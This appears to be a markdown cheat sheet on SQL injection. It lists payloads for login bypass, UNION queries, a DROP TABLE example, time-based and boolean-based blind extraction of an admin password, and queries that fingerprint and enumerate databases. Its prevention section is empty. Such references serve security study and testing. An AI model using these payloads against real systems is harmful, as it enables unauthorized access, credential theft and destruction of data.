 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

# SQL Injection(SQLi)
SQL injection allows an attacker to make unwanted requested queries or modifications to the database.

Let's assume the server makes this query with user input. `SELECT * FROM users WHERE = 'userInput';`

If the user were to input `' OR 1=1; DROP TABLE users; --` the resulting query would be `SELECT * FROM users WHERE = '' OR 1=1; DROP TABLE users; -- ';`.

This attack allowed the user to drop the table when it should be allowed.
- `'` ended the user input's string
- `OR 1=1;` allowed the previous query to return true
- `--` commented the following `'` that was there from the server's query
	- Comments could sometime be `#`

## Table of Contents
<!-- TOC -->

- [SQL InjectionSQLi](#sql-injectionsqli)
	- [Table of Contents](#table-of-contents)
	- [Common SQLi attacks](#common-sqli-attacks)
		- [Logins](#logins)
	- [How do you know the website is using SQL?](#how-do-you-know-the-website-is-using-sql)
	- [How do you know which SQL database is being used?](#how-do-you-know-which-sql-database-is-being-used)
	- [How do you know what all the tables are in the db?](#how-do-you-know-what-all-the-tables-are-in-the-db)
	- [How do you know what all the columns in a table are?](#how-do-you-know-what-all-the-columns-in-a-table-are)
	- [Types of SQLi](#types-of-sqli)
		- [Boolean based SQLi](#boolean-based-sqli)
		- [Blind SQLi](#blind-sqli)
	- [How to prevent SQLis](#how-to-prevent-sqlis)

<!-- /TOC -->

## [Common SQLi attacks](#table-of-contents)
- `' OR 1=1; YOUR INJECTION HERE; --`
- `' UNION SELECT column FROM table; --`
	- When getting back a query you sometimes need an exact amount of columns. Use `, 1` to get this.
		- Ex: `' UNION SELECT column, 1, 1 FROM table; --` 3 columns

- `0'XOR(if(now()=sysdate(),sleep(20),0))XOR'Z`
	- Possibly bypasses filters

### [Logins](#table-of-contents)
Bypassing logins
- `SELECT * FROM users WHERE password = '' AND username = ''` or `SELECT * FROM users WHERE username = '' AND password = ''`
	- Whichever is first, username input or password input: `' OR 1=1; --`
	- Would login to the first user

- When username is first
`admin'--`
`administrator'--`

## [How do you know the website is using SQL?](#table-of-contents)
- Look for SQL keywords in source code which may tell you what they are using.
- Input single quote `'` and look for errors
- Input some SQL and see how that changes the responses. Ex: `ASCII(97)`
	- How does this work?

## [How do you know which SQL database is being used?](#table-of-contents)
- MySQL: `SELECT VERSION();`
- Postgres: `SELECT version();`
- SQL Server: `SELECT @@VERSION;`
- Oracle: `SELECT * FROM v$version`
- SQLite: `SELECT sqlite_version();`
	- https://www.techonthenet.com/sqlite/sys_tables/index.php
- IBM Db2: `SELECT * FROM sysibm.sysversions;`

## [How do you know what all the tables are in the db?](#table-of-contents)
- MySQL: `SHOW TABLES;`
- Postgres, SQL Server: `SELECT * FROM information_schema.tables`
- Oracle: `SELECT table_name FROM user_tables;`
- SQLite: `SELECT name FROM sqlite_master;`
- IBM Db2: `SELECT tabname FROM syscat.tables'`

## [How do you know what all the columns in a table are?](#table-of-contents)
- MySQL and Oracle: `DESCRIBE table_name;` or `SHOW COLUMNS FROM table_name;`
- Postgres, SQL Server: `SELECT COLUMN_NAME from information_schema.columns where table_name = 'table_name'`
- SQLite doesn't have this feature.
- IBM Db2: `SELECT colname FROM syscat.columns WHERE tabname = 'table_name';`

## [Types of SQLi](#table-of-contents)

### [Boolean based SQLi](#table-of-contents)
Boolean based SQLi happen when you only get a boolean value back from your SQLi and you have to extract information through this boolean value.
- Determine if it is a boolean based SQLi
	- The output from `' OR 1=1; --` is different from `' OR 1=2; --`

- `AND (SELECT 'a' FROM users WHEN username='admin')='a'; -- `
	- Returns 'a' when there is a admin username. Which returns true.
	- Used to find if there is that username in users
- `AND (SELECT substring(password,1,1) FROM users WHERE username='admin')='a'; --`
	- used to extract the password one character at a time from the admin user
	- Next time 'a' will be changed to 'b' etc
	- substring(column, index, length)
	- Used to guess and check one character at a time for the password
	- Useful when you are getting back boolean information, but need to reconstruct a string

- Look at the response differences between 

### [Blind SQLi](#table-of-contents)
Blind SQLi are where the attacker cannot see any responses, including errors, from the db.

- Time based attacks
	- Payloads designed to trigger time delays. Ex: `'; WAITFOR DELAY ('0:0:20');--` or `SELECT SLEEP(20);--`
- Out-of-bound network interactions - the attacker injects SQL which triggers the database to communicate with the attacker's server.

## [How to prevent SQLis](#table-of-contents)
- 

`SELECT * FROM products WHERE category = 'Gitfs' OR 1=1 --'`
	- Selects products which has the category of gifts or where 1=1(which is true). This results in returning all the products regardless of the category.
